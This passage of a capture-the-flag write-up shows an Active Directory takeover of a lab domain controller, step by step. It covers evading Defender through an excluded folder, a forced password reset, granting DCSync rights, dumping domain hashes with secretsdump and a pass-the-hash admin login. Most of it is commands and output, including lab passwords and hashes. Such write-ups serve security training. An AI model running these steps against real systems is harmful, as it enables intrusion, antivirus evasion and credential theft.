bb62e082ce389190d2ba143bf3332f5c0a542109d92a061de7b6082c73485d39b6d0ac5e13de38a5a6c6c1cdb252082fc8c29:arachnophobia
```

### WinRM Access

Armed with the credentials for spider, we can now try to login to the target host through WinRM, which was identified as open during the initial Nmap port and service scans.

***WinRM Login***
```
CTRL+ALT+PWN@ZTW25$ evil-winrm -i 192.168.68.70 -u spider -p arachnophobia

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\spider\Documents> hostname; whoami /fqdn
WIN-C2R48891MR5
CN=spider,CN=Users,DC=threa7inc,DC=com
```

### User Files

Now that we have finally obtained a shell on the target host through WinRM, we can explore spider's user folder to look for any potentially interesting files.

***Reading User Files***
```
*Evil-WinRM* PS C:\Users\spider\Documents> gci ..\* -Recurse | where mode -notcontains "d"


    Directory: C:\Users\spider\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/7/2025   9:36 AM            113 todo.txt
```

We can see there is a To-Do list file on spider's desktop, reading it presents this message.

***To-Do List***
```
*Evil-WinRM* PS C:\Users\spider\Documents> cat ../Desktop/todo.txt
X Remove existing recovery keys!
X Build new decryptor!
Fix decyptor, verify unintended decryption bug fixed...
```

## System Discovery

### Defense Evasion

In order for us to enumerate what resources we have access to on the domain as spider, we can use an active directory attack path mapping tool, such as BloodHound, and a data collector compatible with it. 

We will use SharpHound for this task, but in order to do so, we need to find a way to transfer the SharpHound binary. 

One way we can do this is to use the built-in upload functionality in Evil-WinRM to transfer the SharpHound binary.

***Transferring SharpHound***
```
*Evil-WinRM* PS C:\Users\spider\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/operator/Desktop/CTRLALTPWN/SharpHound.exe to C:\Users\spider\Documents\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\spider\Documents> gci


    Directory: C:\Users\spider\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/11/2025   3:16 PM        1052160 SharpHound.exe
```

We can now attempt to run SharpHound to discover the resources we can access as spider.

***Running SharpHound***
```
*Evil-WinRM* PS C:\Users\spider\Documents> .\SharpHound.exe -c all --domain threa7inc.com --ldapusername spider --ldappassword arachnophobia

Program 'SharpHound.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\SharpHound.exe -c all --domain threa7inc.com --ldapusername spider  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\SharpHound.exe -c all --domain threa7inc.com --ldapusername spider  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

We can see that SharpHound was blocked and quarantined by Windows Defender, preventing us from collecting the data for BloodHound. A remote alternative to SharpHound, such as RustHound can be used, however for this example we will continue with SharpHound.

We can enumerate if there are any writable locations excluded from Defender scanning to execute SharpHound out of.

***Enumerating Defender Exclusions***
```
*Evil-WinRM* PS C:\Users\spider\Documents> Get-ChildItem -Path "C:\" -Directory -Recurse -Force -ErrorAction SilentlyContinue | ForEach-Object { & "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File "$($_.FullName)\*" 2>&1 | Where-Object { $_ -notmatch "failed" } | Where-Object {$_ -notmatch "Scan starting..."} }

Scan finished.
Scanning C:\Users\spider\AppData\Local\Games\Doom\* was skipped.
```

Now that we have located a writable folder excluded from scanning, we can re-upload and attempt to run SharpHound once more.

### Active Directory Enumeration

***Trying SharpHound Again***
```
*Evil-WinRM* PS C:\Users\spider\Documents> cd ..\Appdata\Local\Games\Doom
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> dir


    Directory: C:\Users\spider\Appdata\Local\Games\Doom


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/2/2024   6:21 PM         225280 doom64.exe


*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> upload SharpHound.exe
                                        
Info: Uploading /home/operator/Desktop/CTRLALTPWN/SharpHound.exe to C:\Users\spider\Appdata\Local\Games\Doom\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> .\SharpHound.exe -c all --domain threa7inc.com --ldapusername spider --ldappassword arachnophobia
2025-02-11T16:13:45.5663272-05:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-02-11T16:13:45.6995267-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

...(trimmed due to length)

 167 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-02-11T16:14:28.7236128-05:00|INFORMATION|SharpHound Enumeration Completed at 4:14 PM on 2/11/2025! Happy Graphing!
```
We can now download the SharpHound results to import them into BloodHound.

***Downloading SharpHound Results***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> download 20250211161740_BloodHound.zip
                                        
Info: Downloading C:\Users\spider\Appdata\Local\Games\Doom\20250211161740_BloodHound.zip to 20250211161740_BloodHound.zip
                                        
Info: Download successful
```

To use BloodHound, we must launch neo4j and let it load, then run BloodHound.

***Launching BloodHound***
```
CTRL+ALT+PWN@ZTW25$ bloodhound

CTRL+ALT+PWN@ZTW25$ sudo neo4j console               
```

We can now import the data so BloodHound can generate an attack path map.

***Importing Into BloodHound***



### Discovering Misconfigurations

Querying the shortest path to the domain admins group reveals a path utilizing two custom groups. 

The first custom group, named "IT Admins" is a member of the built-in "Account Operators" group, which has the "GenericAll" privilege (full control) over the second custom group named "Affiliate Admins". 

Any users or nested groups under the "Affiliate Admins" group will inherit the "WriteDacl" privilege it has over the entire "Threa7inc.com" domain, allowing for modifications to the directionary access control list for any object in the domain.

***BloodHound Graph***



Selecting the "IT Admins" group, and viewing the direct members allows us to find another user named fortbob.

***BloodHound Relationship***



To enumerate what other object access spider has access to we can upload and use PowerView. Using the built-in upload functionality with Evil-WinRM may be slow or unresponsive when transferring PowerView, so as an alternative, we can start a SMB server on our attacking host and put PowerView in a share that we can access from the target host.

***Starting SMB Server***
```
CTRL+ALT+PWN@ZTW25$ impacket-smbserver share . -smb2support -username ZTW25 -password ZTW25

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

***Accessing Share***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> net use \\192.168.68.7\share /u:ZTW25 ZTW25
The command completed successfully.
```

***Downloading PowerView***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> copy \\192.168.68.7\share\PowerView.ps1 .
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> dir


    Directory: C:\Users\spider\Appdata\Local\Games\Doom


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/2/2024   6:21 PM         225280 doom64.exe
-a----          2/3/2025   1:23 PM         770279 PowerView.ps1
```

We can now import PowerView.

***Importing PowerView***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> Import-Module .\PowerView.ps1
```

Using PowerView, we can check if spider has any extended permissions not visible in BloodHound by checking object ACLs with the "Get-DomainObjectAcl" function.

***Reading Object ACL***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> ConvertTo-SID -Identity spider
S-1-5-21-2466661835-2718939079-248936958-1603

*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> Get-DomainObjectAcl  -ResolveGUIDs | Select-String -Pattern "S-1-5-21-2466661835-2718939079-248936958-1603" | Select-String -Pattern "Extended" | Select-String -NotMatch -Pattern "spider" | Select-String -NotMatch -Pattern "Policies"


@{AceQualifier=AccessAllowed; ObjectDN=CN=fortbob,CN=Users,DC=threa7inc,DC=com; ActiveDirectoryRights=ExtendedRight; ObjectAceType=User-Force-Change-Password; ObjectSID=S-1-5-21-2466661835-2718939079-248936958-5103;
InheritanceFlags=ContainerInherit; BinaryLength=56; AceType=AccessAllowedObject; ObjectAceFlags=ObjectAceTypePresent; IsCallback=False; PropagationFlags=None; SecurityIdentifier=S-1-5-21-2466661835-2718939079-248936958-1603; AccessMask=256;
AuditFlags=None; IsInherited=False; AceFlags=ContainerInherit; InheritedObjectAceType=All; OpaqueLength=0}
```

From the PowerView results, we can see that spider can reset the password for fortbob.

## Privilege Escalation

### Password Resets

We can forcibly set the password for fortbob.

***Resetting User Password***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> Set-DomainUserPassword -Identity fortbob -AccountPassword (ConvertTo-SecureString 'hellopeterwelcometofortnite' -AsPlainText -Force) -Verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'fortbob'
Verbose: [Set-DomainUserPassword] Password for user 'fortbob' successfully reset
```

### More WinRM Access

Now that we have reset the password, we can login as fortbob through WinRM.

***WinRM Login***
```
CTRL+ALT+PWN@ZTW25$ evil-winrm -i 192.168.68.70 -u fortbob -p hellopeterwelcometofortnite           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\fortbob\Documents> hostname; whoami /fqdn
WIN-C2R48891MR5
CN=fortbob,CN=Users,DC=threa7inc,DC=com
```

### Granting DCSync Rights

To reach the "Domain Admin" group from fortbob, we will first need to make fortbob a member of the "Affiliate Admins" group.

***Group Assignment***
```
*Evil-WinRM* PS C:\Users\fortbob\Documents> Add-ADGroupMember -Identity 'Affiliate Admins' -Members fortbob;
*Evil-WinRM* PS C:\Users\fortbob\Documents> net group "Affiliate Admins" /domain
Group name     Affiliate Admins
Comment

Members

-------------------------------------------------------------------------------
fortbob
The command completed successfully.
```

We can now leverage the "WriteDacl" privilege fortbob now has, to modify the "Domain Admins" group and grant DCSync privileges to fortbob.

To modify the domain object access control list for the "Domain Admins" we can use the "Add-DomainObjectAcl" function from PowerView.

***Modifying Object ACL***
```
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> $username = "threa7inc\fortbob"; $password = "hellopeterwelcometofortnite"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)};
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr;
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'fortbob' -TargetIdentity 'threa7inc.com\Domain Admins' -Rights DCSync
*Evil-WinRM* PS C:\Users\spider\Appdata\Local\Games\Doom> 
```

### Dumping Secrets

Now that fortbob has rights to retrieve credential data from the target host through DCSync rights, we can request the hash for the local administrator account with "secretsdump" from the impacket suite.

***Requesting Credentials***
```
CTRL+ALT+PWN@ZTW25$ impacket-secretsdump fortbob:hellopeterwelcometofortnite@192.168.68.70                                                
                                                                                                                                          
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                     
                                                                                                                                          
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                        
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                             
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                      
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dc809a28750811fb6f5c473860f96feb:::                                                    
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                            
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2f606b065d68973ecff0628afa8329aa:::                                                           
threa7inc.com\sparky:1602:aad3b435b51404eeaad3b435b51404ee:a5a24d3a31b999b6df3706857b5b7dda:::                                            
threa7inc.com\spider:1603:aad3b435b51404eeaad3b435b51404ee:17158eca894224c07e17f4aafd3c9686:::                                            
threa7inc.com\carlos:1604:aad3b435b51404eeaad3b435b51404ee:a7d028bbfdabf3aa064a98b0bf9b4570:::    

...(trimmed due to length)

threa7inc.com\Weston:des-cbc-md5:2a078c37a1a2fd4c
threa7inc.com\Gianna:aes256-cts-hmac-sha1-96:a8009c72ffd757a58be170582145a56ea20cbc71632d7b96df91a4b4a280fec5
threa7inc.com\Gianna:aes128-cts-hmac-sha1-96:79f0201dd13be0ba07c37a6925a61f6d
threa7inc.com\Gianna:des-cbc-md5:2f83f7a20d70bfab
WIN-C2R48891MR5$:aes256-cts-hmac-sha1-96:1767842e5c489ef23874faec783c09771cb841282c879308f5d3c43fb080aa03
WIN-C2R48891MR5$:aes128-cts-hmac-sha1-96:18c1b0125ca4df2889da523b10b12f69
WIN-C2R48891MR5$:des-cbc-md5:4998e0cb2a83b92a
[*] Cleaning up... 
```

### Passing The Hash

We can now use the hash for the administrator account to login.

***Administrator Login***
```
CTRL+ALT+PWN@ZTW25$ evil-winrm -i 192.168.68.70 -u administrator -H dc809a28750811fb6f5c473860f96feb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname; whoami /fqdn
WIN-C2R48891MR5
CN=Administrator,CN=Users,DC=threa7inc,DC=com
```

## Collecting Loot

### Reading The Flag

Now that we are logged on as the local administrator account, we can read the flag.

***Winner Winner Chicken Dinner!***

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat "C:\Users\Administrator\Desktop\Recovery Keys\keys.txt"
                                                                                                    
                                   ..    .*%%%%%%%%%%%%%%+.    ..                                   
                                .-=+-    :#%%%%%%%%%%%%%%#:    -+=-..                               
                          ...-******:   .-%%%%%%%%%%%%%%%%=.   :******-...                          
                        .:=********+.   .+%%%%%%%%%%%%%%%%+.   .+********=:.                        
                      .+***********=.   .#%%%%%%%%%%%%%%%%#.   .=***********+.                      
                   .-+*************:    -%%%%%%%%%%%%%%%%%%-    :*************+-.                   
                 .=***************+.    *%%%%%%%%%%%%%%%%%%*    .+***************=.                 
              ..=*****************-    .%%%%%%%%%%%%%%%%%%%%.    -*****************=..              
             .-*******************.    =%%%%%%%%%%%%%%%%%%%%=    .*******************-.             
            :+*******************=    .#%%%%%%%%%%%%%%%%%%%%#.    =*******************+:.           
          .-*********************-    :#%%%%%%%%#**#%%%%%%%%%-    :*********************-.          
         .=*********************+:   .=%%%%%%*.      .+%%%%%%=.   .+*********************=.         
        .+**********************=.   .*%%%%#:.        .:#%%%%*.   .=**********************+.        
      .:************************-    :%%%%%-            :%%%%%:    -************************..      
      .+**********************+:.    +%%%%%.            .%%%%%=    .:+**********************+.      
     .+**********************:.     .%%%%%%-            -%%%%%#.     .:**********************+.     
    .=*********************=.       -%%%%%%#:.        .:#%%%%%%-       .=*********************+.    
   .-*********************:.       .*%%%%%%%%*..    ..*%%%%%%%%*.       .:*********************-.   
   .+*******************+.         :#%%%%%%%%%*.    .+%%%%%%%%%#:         .+*******************+.   
   -*******************+:.        .-%%%%%%%%%%-      -%%%%%%%%%%-.        .:+*******************-   
  .********************:          .+%%%%%%%%%%.      .%%%%%%%%%%+.          :********************.  
  -*******************=.          .#%%%%%%%%%+        +%%%%%%%%%#.          .=*******************-  
 .+******************+.           -%%%%%%%%%%:        :%%%%%%%%%%-           .+******************+. 
 .+******************=.          .*%%%%%%%%%*.        .*%%%%%%%%%*           .=******************+. 
 :*******************-           :%%%%%%%%%%=.        .=%%%%%%%%%%:           -*******************: 
 :*******************:           =%%%%%%%%%%=::::::::::-%%%%%%%%%%=           :*******************: 
 :*******************:          .*%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%*.          :+******************: 
 :*******************:          :#%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%#:          :*******************: 
 :*******************-          =%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%=.         -*******************: 
 .+******************=.         *%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%*.        .=******************+. 
 .+******************+.        .++++++++++++++++++++++++++++++++++++.        .+******************+. 
  -*******************=.                                                    .=*******************-  
  .********************:                                                    :********************.  
   -*******************+:.                                                .:+*******************-   
   .+*******************+.                                                .+*******************+.   
   .-*********************:.                                            .:*********************-.   
    .=*********************-.                                          .=*********************+.    
     .+**********************:.                                      .:**********************+.     
      .+**********************+:.                                  .:+**********************+.      
      .:*************************-.                              .-*************************..      
        .+*************************+-..                      ..-+*************************+.        
         .=****************************+=:.              .:=+****************************=.         
          .-**********************************++====++**********************************-.          
            :+************************************************************************+:.           
             .-**********************************************************************-.             
              ..=******************************************************************=..              
                 .=**************************************************************=.                 
                   .-+********************************************************+-.                   
                      .+****************************************************+.                      
                        .:=**********************************************=:.                        
                          ...-****************************************-...                   
                                .-++****************************++-..                       
                                    ...:-=+**************+=-:...         
                    
85y23489ng9u4hj23897u890yjk20miy3uniobm53
```


